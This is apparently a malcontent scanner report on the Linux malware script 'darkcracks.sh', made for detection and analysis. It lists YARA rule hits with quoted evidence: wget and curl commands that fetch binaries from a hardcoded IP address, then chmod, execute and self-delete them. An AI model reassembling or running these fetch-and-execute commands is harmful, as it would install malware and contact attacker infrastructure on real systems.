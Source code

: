 ## linux/2024.Darkcracks/darkcracks.sh [😈 CRITICAL]

| RISK | KEY | DESCRIPTION | EVIDENCE |
|:--:|:--:|:--:|:--:|
| CRITICAL | [evasion/file/location/chdir_unusual](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/file/location/chdir-unusual.yara#cd_val_obsessive) | changes directory to multiple unusual locations | [cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /;](https://github.com/search?q=cd+%2F%3B&type=code) |
| CRITICAL | [evasion/self_deletion/run_and_delete](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/self_deletion/run_and_delete.yara#run_sleep_delete) | run executable, sleep, and delete | [chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[rm ./wdvsh](https://github.com/search?q=rm+.%2Fwdvsh&type=code)<br>[rm ./agr](https://github.com/search?q=rm+.%2Fagr&type=code)<br>[sleep 3](https://github.com/search?q=sleep+3&type=code) |
| CRITICAL | [net/download/fetch](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/download/fetch.yara#curl_download_ip) | Invokes curl to download a file from an IP | [curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o&type=code) |
| HIGH | [c2/addr/ip](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/addr/ip.yara#http_hardcoded_ip) | hardcoded IP address within a URL | [http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/pQ1iM9hd-x64-musl](http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/pQ1iM9hd-x64-musl)<br>[http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v](http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v) |
| HIGH | [c2/tool_transfer/shell](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/tool_transfer/shell.yara#tool_chmod_relative_run_tiny) | fetch file, make it executable, and run it | [wget http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -O agr](https://github.com/search?q=wget+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-O+agr&type=code)<br>[curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o agr](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o+agr&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)<br>[./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[./agr](https://github.com/search?q=.%2Fagr&type=code) |
| MEDIUM | [exec/shell/exec](https://github.com/chainguard-dev/malcontent/blob/main/rules/exec/shell/exec.yara#calls_shell) | executes shell | [/bin/bash](https://github.com/search?q=%2Fbin%2Fbash&type=code) |
| MEDIUM | [fs/file/make_executable](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/file/file-make_executable.yara#chmod_executable_shell) | makes file executable | [chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code) |
| MEDIUM | [fs/path/relative](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/relative.yara#relative_path_val) | references and possibly executes relative path | [./wdvsh](https://github.com/search?q=.%2Fwdvsh&type=code)<br>[./agr](https://github.com/search?q=.%2Fagr&type=code) |
| MEDIUM | [fs/path/root](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/root.yara#root_path_val) | path reference within /root | [/root](https://github.com/search?q=%2Froot&type=code) |
| MEDIUM | [fs/permission/modify](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/permission/permission-modify.yara#chmod) | [modifies file permissions](https://linux.die.net/man/1/chmod) | [chmod](https://github.com/search?q=chmod&type=code) |
| LOW | [fs/path/var](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/var.yara#var_path) | path reference within /var | [/var/run](https://github.com/search?q=%2Fvar%2Frun&type=code) |
| LOW | [net/http](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/http/http.yara#http) | Uses the HTTP protocol | [http](https://github.com/search?q=http&type=code) |
| LOW | [net/url/embedded](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/url/embedded.yara#http_url) | contains embedded HTTP URLs | [http://179.191.68.85](http://179.191.68.85) |
| LOW | [process/chdir](https://github.com/chainguard-dev/malcontent/blob/main/rules/process/chdir.yara#chdir_shell) | changes working directory | [cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code) |

